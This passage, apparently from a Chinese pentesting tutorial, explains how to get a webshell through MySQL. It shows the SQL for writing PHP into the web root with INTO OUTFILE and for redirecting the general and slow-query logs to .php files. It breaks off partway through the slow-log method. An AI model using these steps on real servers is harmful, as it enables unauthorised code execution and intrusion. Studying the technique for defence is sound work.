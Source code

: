 如果secure_file_priv如果非空，则只能在对应的目录下读文件，如果是空即可在其他目录写。Linux下默认/tmp目录可写。

```powershell
secure-file-priv特性
secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。
当secure_file_priv的值为null ，表示限制mysql 不允许导入|导出
当secure_file_priv的值为/tmp/ ，表示限制mysql 的导入|导出只能发生在/tmp/目录下
当secure_file_priv的值没有具体值时，表示不对mysql 的导入|导出做限制
可以在mysql-ini文件中设置其属性
```

编写一句phpinfo文件，

```php-template
select "<?php phpinfo();?>" INTO OUTFILE  "d:\\phpstudy\\www\\7.php"
```

这里必须注意要双反斜线，否则会转义，

### 2.1.2 通过写入日志文件getshell

读写权限+web绝对路径，修改日志文件为webshell

具体利用方法如下

(1) 开启日志记录:

```csharp
set global general_log = "ON";
```

(2) 查看当前的日志目录:

```sql
show variables like 'general%';
```

(3) 指定日志文件

```csharp
set global general_log_file = "C:/phpStudy/PHPTutorial/WWW/404.php";
```

(4)) 写入执行代码：

```php-template
select "<?php phpinfo();?>";
```

### 2.1.3 通过慢查询写入webshell

具体方法如下：

(1) 查看当前慢查询日志目录：

```sql
show variables like '%slow%';
```

(2) 重新设置路径：

```sql
set GLOBAL slow_query_log_file='C:/phpStudy/PHPTutorial/WWW/slow.php';
```
